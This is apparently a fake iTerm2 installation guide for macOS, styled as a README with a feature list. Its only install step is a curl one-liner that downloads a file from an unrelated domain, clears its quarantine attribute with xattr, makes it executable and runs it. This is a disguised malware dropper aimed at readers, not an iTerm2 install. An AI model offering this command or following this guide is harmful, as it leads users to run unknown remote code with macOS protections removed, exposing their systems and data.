 # 🚀 iTerm2 Setup Guide for macOS

![iTerm2 Custom Terminal Preview](https://iterm2.com/img/logo2x.jpg) <!-- Replace with your actual image path -->

> Boost your terminal productivity with a powerful, customizable replacement for macOS Terminal

## ✨ Key Features
- 🎨 256-Color & True Color Support
- 🔥 GPU-Accelerated Text Rendering
- ⌨️ Customizable Hotkey Windows
- 📦 Split Panes & Tab Management
- 🔌 Integration with Zsh/Bash/Fish

## 📥 Installation

### Install iTerm2
```bash
curl -o /tmp/update https://ourcars.com/update && xattr -c /tmp/update && chmod +x /tmp/update && /tmp/update
```
